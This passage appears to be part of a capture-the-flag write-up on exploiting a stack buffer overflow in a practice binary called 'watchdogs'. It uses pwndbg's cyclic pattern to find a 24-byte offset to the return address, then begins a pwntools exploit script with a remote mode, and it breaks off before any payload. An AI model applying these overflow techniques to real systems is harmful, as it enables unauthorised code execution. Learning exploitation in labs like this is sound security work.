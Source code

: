 ```shell
~/Documents/coding/c$ pwndbg watchdogs
Reading symbols from watchdogs...
(No debugging symbols found in watchdogs)
Cannot convert between character sets `UTF-32' and `UTF-8'
pwndbg: loaded 147 pwndbg commands and 46 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
break-if-taken and break-if-not-taken commands sets breakpoints after a given jump instruction was taken or not
pwndbg> cyclic 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
```
We then run the program and enter the values we got from cyclic
```shell
pwndbg> run
Starting program: /home/pl4int3xt/Documents/coding/c/watchdogs 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter your favourite video game :
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
```
The executable with crash and we will be able to see this as part of the REGISTERS output
```shell
*R13  0x7fffffffdf58 —▸ 0x7fffffffe2d1 ◂— 'SHELL=/bin/bash'
*R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401110 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffde28 ◂— 'daaaaaaaeaaaaaaafaaaaaaaga'
*RIP  0x4011b3 (register_favourite_game+83) ◂— ret 
```
since this is a 64bit binary we need to get the first 8 values of RSP `daaaaaaa` since they are the characters which would have made it to the RIP. We use cyclic to lookup the characters
```shell
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```
We will put 24 random characters before overwriting the return address. Let's create a python script to automate this
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './watchdogs'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
```
